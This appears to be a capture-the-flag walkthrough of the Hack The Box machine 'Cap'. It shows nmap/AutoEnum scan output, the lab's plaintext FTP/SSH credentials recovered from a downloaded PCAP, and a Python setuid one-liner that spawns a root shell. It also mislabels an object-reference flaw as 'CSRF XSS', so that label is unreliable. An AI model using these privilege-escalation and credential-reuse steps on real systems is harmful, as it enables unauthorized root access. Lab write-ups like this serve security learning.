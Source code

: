 
# Cap 

Cap is an easy machine of HTB.
Usually I use manual approach, but i stumbled upon this great tool of an arsenal.
**AutoEnum**

Autoenum does enumuration on your behalf. Most of the findings are good, but a lot of them are rabbit holes.
Here is a truncated result of autoenum.

![](2021-08-06-01-06-58.png)

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-08-05 23:54 IST
Nmap scan report for 10.10.10.245
Host is up (0.19s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| vulscan: VulDB - https://vuldb.com:
| [68991] vsftpd 3.0.2 deny_file unknown vulnerability
    ---------------TRUNCATED---------------
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| vulscan: VulDB - https://vuldb.com:
| [155909] OpenSSH 8.2 scp Client privilege escalation
    ---------------TRUNCATED-----------------------_
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
    -------Truncated--------
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.63 seconds
Starting Nmap 7.80 ( https://nmap.org ) at 2021-08-05 23:56 IST
Stats: 0:03:16 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.63% done; ETC: 23:59 (0:00:03 remaining)                                                                                                                                                                              
Stats: 0:03:21 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan                                                                                                                                                                 
NSE Timing: About 98.63% done; ETC: 23:59 (0:00:03 remaining)                                                                                                                                                     

-----TRUNCATED-------

Nmap scan report for 10.10.10.245
Host is up (0.23s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
22/tcp open  ssh
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.245
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.10.245:80/
|     Form id: 
|     Form action: #
|     
|     Path: http://10.10.10.245:80/data/9
|     Form id: 
|     Form action: #
|     
|     Path: http://10.10.10.245:80/netstat
|     Form id: 
|_    Form action: #
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.

Nmap done: 1 IP address (1 host up) scanned in 954.15 seconds

```

![](2021-08-06-01-04-32.png)

Here we find a CSRF XSS vulnerability. We can exploit by putting manually another value instead of '4'. So I wanted to know what was the first connection reuests on this machine. So I chose '0'.


We download the PCAP file (because it looks fishy, the data, and the machine's name is as well 'CAP').
![](2021-08-06-00-55-00.png)

We found the credentials after a little searching.

#### USER:nathan
#### PASS:Buck3tH4TF0RM3!

![](2021-08-06-01-10-24.png)

I logged-in using ftp and downloaded the user.txt.

```
get user.txt
```

![](2021-08-06-01-14-37.png)

Trying the same credentials for SSH, It works.

For Privilege escalation, I used 'LinPeas'.
Its a great tool for quick searching of vulnerabilities in a system.
![](2021-08-06-01-25-33.png)

We found some intresting capabilities.
<https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/>

![](2021-08-11-21-23-53.png)

We used local arbitary code privilege escalation for this.

```python
python3 -c "import os;os.setuid(0);os.system('/bin/bash')"
```
(Here ';' in python is used as a delimeter).